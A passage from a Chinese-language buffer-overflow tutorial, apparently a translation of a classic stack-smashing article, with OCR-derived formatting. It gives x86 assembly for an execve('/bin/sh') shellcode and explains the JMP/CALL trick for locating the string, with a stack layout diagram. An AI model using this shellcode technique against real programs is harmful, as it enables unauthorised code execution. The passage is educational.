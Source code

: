 &nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;movb&nbsp; &nbsp;$0x0,null_byte_addr

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;movl&nbsp; &nbsp;$0x0,null_addr

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;movl&nbsp; &nbsp;$0xb,%eax

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;movl&nbsp; &nbsp;string_addr,%ebx

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;leal&nbsp; &nbsp;string_addr,%ecx

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;leal&nbsp; &nbsp;null_string,%edx

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;int&nbsp; &nbsp; $0x80

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;movl&nbsp; &nbsp;$0x1, %eax

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;movl&nbsp; &nbsp;$0x0, %ebx

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;int&nbsp; &nbsp; $0x80

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;/bin/sh string goes here.

------------------------------------------------------------------------------

&nbsp; &nbsp; 问题是我们不知道在要破解的程序的内存空间中, 上述代码(和其后的字串)会被放到

哪里. 一种解决方法是使用JMP和CALL指令. JMP和CALL指令使用相对IP的寻址方式, 也就

是说我们可以跳到距离当前IP一定间距的某个位置, 而不必知道那个位置在内存中的确切

地址. 如果我们在字串"/bin/sh"之前放一个CALL指令, 并由一个JMP指令转到CALL指令上.

当CALL指令执行的时候, 字串的地址会被作为返回地址压入堆栈之中. 我们所需要的就是

把返回地址放到一个寄存器之中. CALL指令只是调用我们上述的代码就可以了. 假定J代

表JMP指令, C代表CALL指令, s代表字串, 执行过程如下所示:

内存低&nbsp; &nbsp;&nbsp;&nbsp;DDDDDDDDEEEEEEEEEEEE&nbsp;&nbsp;EEEE&nbsp;&nbsp;FFFF&nbsp;&nbsp;FFFF&nbsp;&nbsp;FFFF&nbsp;&nbsp;FFFF&nbsp; &nbsp;&nbsp;&nbsp;内存高

地址&nbsp; &nbsp;&nbsp; &nbsp; 89ABCDEF0123456789AB&nbsp;&nbsp;CDEF&nbsp;&nbsp;0123&nbsp;&nbsp;4567&nbsp;&nbsp;89AB&nbsp;&nbsp;CDEF&nbsp; &nbsp;&nbsp;&nbsp;地址

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;buffer&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp; sfp&nbsp; &nbsp;ret&nbsp; &nbsp;a&nbsp; &nbsp;&nbsp;&nbsp;b&nbsp; &nbsp;&nbsp;&nbsp;c

&lt;------&nbsp; &nbsp;[JJSSSSSSSSSSSSSSCCss][ssss][0xD8][0x01][0x02][0x03]

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;^|^&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp; ^|&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;|

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;|||_____________||____________| (1)

&nbsp; &nbsp;&nbsp; &nbsp; (2)&nbsp;&nbsp;||_____________||

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp; |______________| (3)

堆栈顶部&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;堆栈底部

